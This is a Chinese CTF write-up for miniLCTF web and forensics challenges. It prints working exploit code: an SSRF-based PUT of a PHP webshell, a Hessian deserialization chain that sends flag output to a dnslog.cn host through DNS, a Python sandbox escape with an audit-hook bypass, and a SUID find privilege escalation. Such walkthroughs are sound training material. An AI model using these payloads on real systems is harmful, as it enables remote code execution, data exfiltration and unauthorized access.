# Web

## GuessOneGuess

给了源码，后端是nodejs写的，打开页面是个猜数字游戏，貌似达到一定分数有东西，但是肯定没这么简单出flag，因为要达到的分数是JavaScript能表示的最大数值：



但发现有个punishment-response，就是猜错100次后会接收客户端发送的数字在总分中扣除这个数字，果断想到可以发送一个极大的负数，使得扣分变成加分，分数就可以变成想要的最大数值。

python脚本：

```python
#!/usr/bin/env python3
import socketio
import asyncio
import sys

SERVER_URL = "http://127.0.0.1:51610/"
WS_PATH = "socket.io/"


sio = socketio.AsyncClient(logger=True, engineio_logger=True)

incorrect_guesses_count = 0
score_manipulated = False
flag_received = False

min_val = 1
max_val = 100
current_guess = -1

@sio.event
async def connect():
    print("[+] Connected to server.")
    print("[*] Starting phase 1: Triggering punishment (100 incorrect guesses)...")
    print("[*] Sending initial guess (guess #1)...")
    await sio.emit("guess", {"value": "1"})

@sio.event
async def disconnect():
    print("[-] Disconnected from server.")

@sio.on('game-message')
async def game_message(data):
    print("here")
    global incorrect_guesses_count, score_manipulated, flag_received
    global min_val, max_val, current_guess

    message_type = data.get("type")
    message = data.get("message", "")
    score = data.get("score", 0)
    print(f"[RECV] Type: {message_type}, Win: {data.get('win', 'N/A')}, Message: {message}, Score: {score}") # Enhanced logging

    if flag_received:
        return

    if message_type == "welcome":
        print(f"[*] Welcome message received: {message}")

    elif message_type == "result":
        win = data.get("win", False)
        show_flag = data.get("showFlag", False)

        if win:
            print(f"[+] Correct guess! Message: {message}, Score: {score}")
            if show_flag:
                flag = message.split("\n")[-1]
                print("\n" + "="*40)
                print(f"[*] FLAG FOUND: {flag}")
                print("="*40 + "\n")
                flag_received = True
                await sio.disconnect()
                return
            else:
                print("[*] Score manipulated successfully. Starting phase 3: Binary search for the flag...")
                min_val = 1
                max_val = 100
                current_guess = (min_val + max_val) // 2
                print(f"[*] Binary Search: Guessing {current_guess}")
                await sio.emit("guess", {"value": str(current_guess)})

        else: # Incorrect guess
            print(f"[*] Handling incorrect guess result (win=False). Current incorrect count: {incorrect_guesses_count}")
            if not score_manipulated:
                incorrect_guesses_count += 1
                print(f"[*] Incorrect guess count incremented to: {incorrect_guesses_count}")
                if incorrect_guesses_count < 100:
                    # Send another incorrect guess
                    print(f"[*] Sending guess #{incorrect_guesses_count + 1} (value: 1)...")
                    await sio.emit("guess", {"value": "1"})
                    print(f"[*] Guess #{incorrect_guesses_count + 1} sent.")
                else:
                    print(f"[*] Reached {incorrect_guesses_count} incorrect guesses. Waiting for punishment event...")
            else:
                print(f"[*] Binary Search: Feedback: {message}")
                if "太小了" in message:
                    min_val = current_guess + 1
                elif "太大了" in message:
                    max_val = current_guess - 1
                else:
                    print("[!] Unexpected feedback during binary search.")
                    await sio.disconnect()
                    return

                if min_val > max_val:
                    print("[!] Binary search failed (min > max). Something is wrong.")
                    await sio.disconnect()
                    return

                current_guess = (min_val + max_val) // 2
                print(f"[*] Binary Search: Guessing {current_guess} (Range: {min_val}-{max_val})")
                await sio.emit("guess", {"value": str(current_guess)})

    elif message_type == "error":
        print(f"[!] Server Error: {message}")
        await sio.disconnect()

@sio.event
async def punishment(data):
    global score_manipulated
    print("[*] Received punishment event. Sending large negative score...")
    large_negative_score = "-2e308"
    await sio.emit("punishment-response", {"score": large_negative_score})
    score_manipulated = True
    print(f"[*] Sent punishment response with score: {large_negative_score}")

async def main():
    global flag_received
    try:
        print(f"[*] Attempting to connect to {SERVER_URL}...")
        await sio.connect(SERVER_URL, socketio_path=WS_PATH)
        await sio.wait()
    except socketio.exceptions.ConnectionError as e:
        print(f"[!] Connection failed: {e}")
        print("[!] Please ensure the server is running and the SERVER_URL is correct.")
    except Exception as e:
        print(f"[!] An unexpected error occurred: {e}")
    finally:
        if sio.connected:
             await sio.disconnect()
        if not flag_received:
            print("[*] Script finished without finding the flag.")

if __name__ == '__main__':
    if len(sys.argv) > 1:
        SERVER_URL = sys.argv[1]
        print(f"[*] Using server URL from argument: {SERVER_URL}")
    try:
        asyncio.run(main())
    except KeyboardInterrupt:
        print("\n[*] Script interrupted by user.")
```



## Miniup

进去以后三个功能，上传图片、搜索图片以及查看图片

上传图片没啥名堂，校验死死的，搜索图片的话抓了请求包也没看到啥东西，果断看查看图片，这里直接发现任意文件读取:



直接猜测网页源代码路径为：/var/www/html/index.php

```php
<?php
  $dufs_host = '127.0.0.1';
$dufs_port = '5000';

if ($_SERVER['REQUEST_METHOD'] === 'POST' && isset($_POST['action']) && $_POST['action'] === 'upload') {
  if (isset($_FILES['file'])) {
    $file = $_FILES['file'];

    $filename = $file['name'];

    $allowed_extensions = ['jpg', 'jpeg', 'png', 'gif', 'bmp', 'webp'];

    $file_extension = strtolower(pathinfo($filename, PATHINFO_EXTENSION));

    if (!in_array($file_extension, $allowed_extensions)) {
      echo json_encode(['success' => false, 'message' => '只允许上传图片文件']);
      exit;
    }

    $target_url = 'http://' . $dufs_host . ':' . $dufs_port . '/' . rawurlencode($filename);

    $file_content = file_get_contents($file['tmp_name']);

    $ch = curl_init($target_url);

    curl_setopt($ch, CURLOPT_CUSTOMREQUEST, 'PUT');
    curl_setopt($ch, CURLOPT_POSTFIELDS, $file_content);
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
    curl_setopt($ch, CURLOPT_HTTPHEADER, [
                'Host: ' . $dufs_host . ':' . $dufs_port,
                'Origin: http://' . $dufs_host . ':' . $dufs_port,
                'Referer: http://' . $dufs_host . ':' . $dufs_port . '/',
                'Accept-Encoding: gzip, deflate',
                'Accept: */*',
                'Accept-Language: en,zh-CN;q=0.9,zh;q=0.8',
                'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36',
                'Content-Length: ' . strlen($file_content)
                ]);

    $response = curl_exec($ch);
    $http_code = curl_getinfo($ch, CURLINFO_HTTP_CODE);

    curl_close($ch);

    if ($http_code >= 200 && $http_code < 300) {
      echo json_encode(['success' => true, 'message' => '图片上传成功']);
    } else {
      echo json_encode(['success' => false, 'message' => '图片上传失败，请稍后再试']);
    }

    exit;
  } else {
    echo json_encode(['success' => false, 'message' => '未选择图片']);
    exit;
  }
}

if ($_SERVER['REQUEST_METHOD'] === 'POST' && isset($_POST['action']) && $_POST['action'] === 'search') {
  if (isset($_POST['query']) && !empty($_POST['query'])) {
    $search_query = $_POST['query'];

    if (!ctype_alnum($search_query)) {
      echo json_encode(['success' => false, 'message' => '只允许输入数字和字母']);
      exit;
    }

    $search_url = 'http://' . $dufs_host . ':' . $dufs_port . '/?q=' . urlencode($search_query) . '&json';

    $ch = curl_init($search_url);
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
    curl_setopt($ch, CURLOPT_HTTPHEADER, [
                'Host: ' . $dufs_host . ':' . $dufs_port,
                'Accept: */*',
                'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36'
                ]);

    $response = curl_exec($ch);
    $http_code = curl_getinfo($ch, CURLINFO_HTTP_CODE);
    curl_close($ch);

    if ($http_code >= 200 && $http_code < 300) {
            $response_data = json_decode($response, true);
            if (isset($response_data['paths']) && is_array($response_data['paths'])) {
                $image_extensions = ['jpg', 'jpeg', 'png', 'gif', 'bmp', 'webp'];

                $filtered_paths = [];
                foreach ($response_data['paths'] as $item) {
                    $file_name = $item['name'];
                    $extension = strtolower(pathinfo($file_name, PATHINFO_EXTENSION));

                    if (in_array($extension, $image_extensions) || ($item['path_type'] === 'Directory')) {
                        $filtered_paths[] = $item;
                    }
                }

                $response_data['paths'] = $filtered_paths;

                echo json_encode(['success' => true, 'result' => json_encode($response_data)]);
            } else {
                echo json_encode(['success' => true, 'result' => $response]);
            }
        } else {
            echo json_encode(['success' => false, 'message' => '搜索失败，请稍后再试']);
        }

        exit;
    } else {
        echo json_encode(['success' => false, 'message' => '请输入搜索关键词']);
        exit;
    }
}

if ($_SERVER['REQUEST_METHOD'] === 'POST' && isset($_POST['action']) && $_POST['action'] === 'view') {
    if (isset($_POST['filename']) && !empty($_POST['filename'])) {
        $filename = $_POST['filename'];

        $file_content = @file_get_contents($filename, false, stream_context_create($_POST['options']));

        if ($file_content !== false) {
            $base64_image = base64_encode($file_content);
            $mime_type = 'image/jpeg';

            echo json_encode([
                'success' => true,
                'is_image' => true,
                'base64_data' => 'data:' . $mime_type . ';base64,' . $base64_image
            ]);
        } else {
            echo json_encode(['success' => false, 'message' => '无法获取图片']);
        }

        exit;
    } else {
        echo json_encode(['success' => false, 'message' => '请输入图片路径']);
        exit;
    }
}
?>
```

发现有一处可以我们控制的额外参数点，$_POST['options']，为啥说是额外参数点，因为在抓包过程中数据包中没看到这个参数，也就是说这个参数要我们自己构造，那这个要我们自己构造的点往往就是破局的关键点。另外代码中一直有对127.0.0.1:5000这个端口的请求逻辑，那么我们就需要对这个端口进行请求，发现代码中有put逻辑上传文件的功能，那可以直接尝试PUT木马上去：

```bash
curl -X POST http://127.0.0.1:55284/index.php \
-d 'action=view' \
--data-urlencode 'filename=http://127.0.0.1:5000/shell.php' \
-d 'options[http][method]=PUT' \
--data-urlencode 'options[http][content]=<?php system($_GET["cmd"]) ; ?>'
```

返回内容如下：

{"success":true,"is_image":true,"base64_data":"data:image\/jpeg;base64,"}

shell执行env命令，就可以拿到flag了。



## Click and click

页面和题目描述都说要按钮按到10000次，那就直接js安排：

```js
const button = document.querySelector('button');
let count = 0;

const clickButton = () => {
  button.click();
  count++;
  if (count % 1000 === 0) console.log(`Clicked ${count} times`);
  
  // 当count达到10000时，停止递归调用
  if (count >= 10000) {
    console.log("Reached 10000 clicks! Stopping...");
    return; // 直接返回，不再调用setTimeout
  }
  
  setTimeout(clickButton, 0); // 继续点击
};

clickButton();
```

给出两个提示:

“前后端分离”估计就是提示页面有请求包，f12看了一下，没到50次就会发一个/update-amount的请求，其中请求的参数amount值为点击次数，当点击次数<1000时，返回内容是ok，而当点击次数\>=1000,响应包状态码变400，内容为“你按的太快了！”。感觉是后端有啥逻辑限制了，看到第2个提示，再看到请求的数据是json格式，立马想到原型链污染，尝试污染这个amount，尝试了一下还真成功了，反悔了flag：



## ezCC

提示源码在secret目录下，下载进行审计。

pom.xml中有CC3.2.1，就是打CC链了，限制了发送的序列化后base64的数据长度要在6000以内，还不允许解码后出现以下词：



难点在于把命令执行的类都限制死了，想到既然限制都是加在data参数上，那么是不是可以再通过另外一个参数传递要加载的字节码实现命令执行？ 看到题目用的springboot环境，那解决了。

自己构造payload太麻烦了，直接拿出javachains工具，使用下面这个利用链：



Spring字节码加载可以设置自己要加载的另外一个字节码的参数名aaa:



长度为4064，刚刚好：



然后另外一个参数aaa加载的字节码直接用one for all echo方式回显：



发包时，post传参data为第一个构造的内容，aaa传参为第2个构造的内容，注意url编码传参内容，然后请求头X-Authorization设置要执行的命令，发包就可以执行命令了，直接执行env命令获得flag：



## ezHessian

看题目就知道考的是Hessian反序列化，也是刚接触，立马查资料学习了一下。给的依赖只有hessian，版本为低版本4.0.38，可以通过原生jdk构造利用链实现Runtime执行命令，但是源码中限制构造的payload base64解码后不能出现“java”，这是个难点，后面给了提示UTF-8 Overlong Encoding才知道怎么绕的，重点学习了这篇文章：https://exp10it.io/2024/02/hessian-utf-8-overlong-encoding/

盗用了一下其中的UTF-8 Overlong Encoding的代码：

```java
package org.example;

import com.caucho.hessian.io.Hessian2Output;

import java.io.IOException;
import java.io.OutputStream;
import java.lang.reflect.Field;

public class Hessian2OutputWithOverlongEncoding extends Hessian2Output {
    public Hessian2OutputWithOverlongEncoding(OutputStream os) {
        super(os);
    }

    @Override
    public void printString(String v, int strOffset, int length) throws IOException {
        int offset = (int) getSuperFieldValue("_offset");
        byte[] buffer = (byte[]) getSuperFieldValue("_buffer");

        for (int i = 0; i < length; i++) {
            if (SIZE <= offset + 16) {
                setSuperFieldValue("_offset", offset);
                flushBuffer();
                offset = (int) getSuperFieldValue("_offset");
            }

            char ch = v.charAt(i + strOffset);

            // 2 bytes UTF-8
            buffer[offset++] = (byte) (0xc0 + (convert(ch)[0] & 0x1f));
            buffer[offset++] = (byte) (0x80 + (convert(ch)[1] & 0x3f));

//            if (ch < 0x80)
//                buffer[offset++] = (byte) (ch);
//            else if (ch < 0x800) {
//                buffer[offset++] = (byte) (0xc0 + ((ch >> 6) & 0x1f));
//                buffer[offset++] = (byte) (0x80 + (ch & 0x3f));
//            }
//            else {
//                buffer[offset++] = (byte) (0xe0 + ((ch >> 12) & 0xf));
//                buffer[offset++] = (byte) (0x80 + ((ch >> 6) & 0x3f));
//                buffer[offset++] = (byte) (0x80 + (ch & 0x3f));
//            }
        }

        setSuperFieldValue("_offset", offset);
    }

    @Override
    public void printString(char[] v, int strOffset, int length) throws IOException {
        int offset = (int) getSuperFieldValue("_offset");
        byte[] buffer = (byte[]) getSuperFieldValue("_buffer");

        for (int i = 0; i < length; i++) {
            if (SIZE <= offset + 16) {
                setSuperFieldValue("_offset", offset);
                flushBuffer();
                offset = (int) getSuperFieldValue("_offset");
            }

            char ch = v[i + strOffset];

            // 2 bytes UTF-8
            buffer[offset++] = (byte) (0xc0 + (convert(ch)[0] & 0x1f));
            buffer[offset++] = (byte) (0x80 + (convert(ch)[1] & 0x3f));

//            if (ch < 0x80)
//                buffer[offset++] = (byte) (ch);
//            else if (ch < 0x800) {
//                buffer[offset++] = (byte) (0xc0 + ((ch >> 6) & 0x1f));
//                buffer[offset++] = (byte) (0x80 + (ch & 0x3f));
//            }
//            else {
//                buffer[offset++] = (byte) (0xe0 + ((ch >> 12) & 0xf));
//                buffer[offset++] = (byte) (0x80 + ((ch >> 6) & 0x3f));
//                buffer[offset++] = (byte) (0x80 + (ch & 0x3f));
//            }
        }

        setSuperFieldValue("_offset", offset);
    }

    public int[] convert(int i) {
        int b1 = ((i >> 6) & 0b11111) | 0b11000000;
        int b2 = (i & 0b111111) | 0b10000000;
        return new int[]{ b1, b2 };
    }

    public Object getSuperFieldValue(String name) {
        try {
            Field f = this.getClass().getSuperclass().getDeclaredField(name);
            f.setAccessible(true);
            return f.get(this);
        } catch (Exception e) {
            return null;
        }
    }

    public void setSuperFieldValue(String name, Object val) {
        try {
            Field f = this.getClass().getSuperclass().getDeclaredField(name);
            f.setAccessible(true);
            f.set(this, val);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

然后就直接构造命令执行的利用链了，下面这个是最终返回flag的poc，途中也卡了好久，发现只能dns出网，打ldap半天没得到结果，应该是tcp不能出网，而题目源码有给了一个readflag程序的利用方式，果断想到利用dns命令执行带出的方式：

```
package org.example;

import com.caucho.hessian.io.Hessian2Input;
import sun.swing.SwingLazyValue;
import javax.activation.MimeTypeParameterList;
import javax.swing.*;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.Base64;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.FileOutputStream;
public class hessianDemo2 {
    public static void main(String[] args) throws Exception {
        UIDefaults uiDefaults = new UIDefaults();
        Method invokeMethod = Class.forName("sun.reflect.misc.MethodUtil").getDeclaredMethod("invoke", Method.class, Object.class, Object[].class);
        Method exec = Class.forName("java.lang.Runtime").getDeclaredMethod("exec", String[].class);
        String[] cmdArray =  {"sh","-c","ping -c 4 `../readflag give me the flag`.gvb0t2.dnslog.cn"};
        SwingLazyValue slz = new SwingLazyValue("sun.reflect.misc.MethodUtil", "invoke", new Object[]{invokeMethod, new Object(), new Object[]{exec, Runtime.getRuntime(), new Object[]{cmdArray}}});

        uiDefaults.put("xxx", slz);
        MimeTypeParameterList mimeTypeParameterList = new MimeTypeParameterList();

        setFieldValue(mimeTypeParameterList,"parameters",uiDefaults);

        byte[] data_overlong_safe = hessian2SerializeWithOverlongEncoding(mimeTypeParameterList);
        String base64 = Base64.getEncoder().encodeToString(data_overlong_safe);
        System.out.println(base64);

        try (FileOutputStream fos = new FileOutputStream("SwingLazyValue.ser")) {
            fos.write(data_overlong_safe);
        }
    }


    public static byte[] hessian2SerializeWithOverlongEncoding(Object o) throws Exception {
        ByteArrayOutputStream bao = new ByteArrayOutputStream();
        Hessian2OutputWithOverlongEncoding output = new Hessian2OutputWithOverlongEncoding(bao);
        // Allow serialization of non-serializable types if needed, though JdbcRowSetImpl is Serializable
        output.getSerializerFactory().setAllowNonSerializable(true);
        bao.write(67);
        output.writeObject(o);
        output.flushBuffer();
        return bao.toByteArray();
    }

    public static Object hessian2Unserialize(byte[] data) throws Exception {
        Hessian2Input input = new Hessian2Input(new ByteArrayInputStream(data));
        Object obj = input.readObject();
        return obj;
    }

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
}
```



应该是还有其他办法的，不然怎么会有hdhessian：hessian是高版本，而且dns也不出网。。。想不到有啥更通用的利用方式了，期待hdhessian的wp。


##  pybox

放在最后写wp是因为觉得这是出的最有意思的一道题，中间绕了好多坎，值得记录一下wp（当然这也是最后才做出来的，比赛前半小时做出来。。。）


###  第一道坎：badchars

```python
badchars = "\"'|&`+-*/()[]{}_."
```

直接16进制绕过

```
def string_to_hex(s):
    hex_string = ''
    for char in s:
        ascii_value = ord(char)
        hex_char = r'\x{:02x}'.format(ascii_value)
        hex_string += hex_char
    return hex_string

string = '''\")
逃逸的payload
#'''
hex_string = string_to_hex(string)
```

###  第二道坎：绕过钩子检查



覆盖filter和len函数，就可以通过钩子检查

```
filter=lambda a,b: [1,2,3]
len = lambda x: 0
```

### 第三道坎：逃逸出去命令执行

题目也提示了用Exceptin，就是异常逃逸

```
try:
  1/0 # 触发 ZeroDivisionError
except Exception as e:
  sys_module = None
  f = e.__traceback__.tb_frame
  while f:
    if 'sys' in f.f_globals:
        sys_module = f.f_globals['sys']
        break
    f = f.f_back
  if sys_module:
    sys_module.audithooks = []
    os_module = sys_module.modules['os']
    print(os_module.popen('echo 1').read())
```

### 第四道坎： find提权

刚开始想可能flag像之前题一样在env执行结果里面，结果跑半天脚本发现FLAG环境变量值为空：



后面发现根目录有个文件m1n1FL@G，flag应该就是在这里面了，但是读取后为空，后面发现是权限不够，只有root有读权限，而当前权限是普通用户。那就要尝试提权了，发现find命令是有s的，那就是find提权了：



basecommand = "find /usr/bin/find -exec cat /m1n1FL@G  \;"

### 第四道坎：flag读取不全



读半天没读出完整的flag，大概率脚本是写的有问题，猜到flag里面可能有特殊字符，导致执行命令回显不到页面上（因为我写的脚本是一个字符一个字符的取从而绕过长度限制）。转念一想，直接base64不就解决了。

先改文件权限：basecommand = "find /usr/bin/find -exec  chmod 777 /m1n1FL@G \;"

然后普通用户下查看内容并base64编码：basecommand = "cat /m1n1FL@G | base64"

成功得到base64内容，解码得到：miniLCTF{S3cReT-Flag-1N-5nAk3-Ye@R_🐍506797a}    （鬼知道居然这flag里面居然放了个蛇的图标）。



最后发一下解题用的python脚本，basecommand那块放的就是要执行的命令，可以逐步回显出执行的结果。

```
import os

import requests

def string_to_hex(s):
    hex_string = ''
    for char in s:
        ascii_value = ord(char)
        hex_char = r'\x{:02x}'.format(ascii_value)
        hex_string += hex_char
    return hex_string


basecommand = "cat /m1n1FL@G | base64"
full_content = ""
index = 0

while True:
    string = '''\")
filter=lambda a,b: [1,2,3]
len = lambda x: 0
try:
    raise Exception("exploit")
except Exception as e:
    tb = e.__traceback__.tb_frame      
    globals= tb.f_back.f_back.f_globals
    os = globals["__builtins__"].get('__import__')('os')
    print(os.popen("%s | tr '\\n' '|'  |cut -c %s").read())
    #''' %(basecommand, index + 1)
    hex_string = string_to_hex(string)
    text = requests.post("http://127.0.0.1:56135/execute", data={"text": hex_string}).text.strip()
    if "Error" in text:
        print("Error")
    if len(text) > 0 and text != "Error":
        full_content = full_content + text[0]
    print(full_content)
    index += 1
print(full_content)
```


#  Misc

## 吃豆人

直接查看js，定位到获取flag的位置：



直接把fetch这段请求复制到控制台发送，获得flag。



## 麦霸评分

直接下载页面上的歌，用burp发包compare-recording端点，上传的文件直接用下载的歌即可（不知道为啥用burp就是没成功，yakit发包一下就成功了）：



## MiniForensicsⅠ

从附件下载可得到一个虚拟机的压缩文件，vmware打开虚拟机vmx文件进行取证分析。



打开b.txt后根据题目描述首先尝试画图，将每一行数识别为横纵坐标，多次调试结果并没有得到想要的显示效果。

根据文件修改时间，可以定位到文档中有最新添加的一个nihao文件夹，遂取出分析



得到ai.rar和pwd.txt，其中pwd.txt提示7位数字密码，故尝试爆破，



密码为1846287

打开后发现崩铁一张图片和hahaha.txt的提示信息。

将压缩包foremost提取，即可找到ssl.log文件。

毫无疑问将log文件导入wireshark进行pcapng包流量解密。





可以看到之前加密流量中有两条post的数据包，导出为两个压缩包文件，追踪第590帧的POST数据包可发现是我们想要的bitloker文件，



进行导出，还原，得到了bitlocker如下



恢复密钥: 

	521433-074470-317097-543499-149259-301488-189849-252032

回复密钥解密D盘可得到c文件





c文件和b文件相似，一开始尝试了异或，相减没有得到想要的结果。

但是对c文件生成图后可获得提示信息b=(a+c)/2



~~~python
# python
import matplotlib.pyplot as plt
from PIL import Image, ImageOps

def read_points(filename):
    points = []
    with open(filename, 'r') as f:
        for line in f:
            if line.strip():
                x, y = map(float, line.strip().split(','))
                points.append((x, y))
    return points

# 1. 读取原始坐标点
points = read_points("draw_c.txt")

# 2. 对 x y 坐标拉长2.5倍
scaled_points = [(x * 2.5, y * 2.5) for x, y in points]

# 3. 绘制坐标图并保存
plt.figure(figsize=(6,6))
x_vals, y_vals = zip(*scaled_points)
plt.scatter(x_vals, y_vals, c="blue", s=0.1)
plt.xlabel("X")
plt.ylabel("Y")
plt.title("Scaled Points (X axis * 2)")
plt.gca().set_aspect('equal', 'box')
plt.savefig("plot1.png", dpi=300)
plt.close()

# 4. 对生成的图像执行左右镜像翻转输出
image = Image.open("plot1.png")
# 左右镜像翻转
mirrored_horiz = ImageOps.mirror(image)
# mirrored_horiz.save("mirrored_plot1.png")
# mirrored_horiz.show()

# 上下镜像翻转
mirrored_vert = ImageOps.flip(image)
# mirrored_vert.save("mirrored_plot1_vertical.png")
mirrored_vert.show()
# mirrored_image = ImageOps.mirror(image)
# mirrored_image.save("mirrored_plot1.png")
# mirrored_image.show()
~~~


故对坐标值进行进行2b-c运算，即可得到flag值

~~~python
import matplotlib.pyplot as plt
from PIL import Image, ImageDraw, ImageFont
# 指定一款支持中文的系统字体路径
font_path = r'C:\Windows\Fonts\SimHei.ttf'
font_size = 24
font = ImageFont.truetype(font_path, font_size, encoding='utf-8')

def read_points(filename):
    with open(filename, 'r') as f:
        return [tuple(map(float, line.strip().split(','))) for line in f if line.strip()]

# 1. 读取点集
# points_a = read_points('draw_a.txt')
points_b = read_points('draw_b.txt')
points_c = read_points('draw_c.txt')

# 计算 2*b - c
result_points = []
for b, c in zip(points_b, points_c):
    x = 2 * b[0] - c[0]
    y = 2 * b[1] - c[1]
    result_points.append((x, y))


pts = result_points
# 2. 计算边界
xs = [x for x, y in pts]
ys = [y for x, y in pts]
xmin, xmax = min(xs), max(xs)
ymin, ymax = min(ys), max(ys)

# 3. 生成镜像坐标
h_mirror = [(xmax + xmin - x, y) for x, y in pts]  # 左右镜像
v_mirror = [(x, ymax + ymin - y) for x, y in pts]  # 上下镜像

# 4. 绘图
plt.figure(figsize=(6,6))
# plt.scatter(*zip(*pts), c='blue',    s=5, label='raw points')
plt.scatter(*zip(*h_mirror), c='red',   s=1)
# plt.scatter(*zip(*v_mirror), c='green', s=5, label='vertical mirror')

plt.gca().set_aspect('equal', 'box')
plt.legend()
# plt.title('原始点及镜像变换结果')
plt.xlabel('X')
plt.ylabel('Y')
# 5. 保存并显示
plt.savefig('mirrored_plot.png', dpi=300)
plt.close()

icon = Image.open("mirrored_plot.png")
icon_rotated = icon.rotate(-180, expand=True)
icon_rotated.save('icon_rotated.png')
icon_rotated.show()

~~~



`miniLCTF{forens1c5_s0ooooo_1nt4resting}`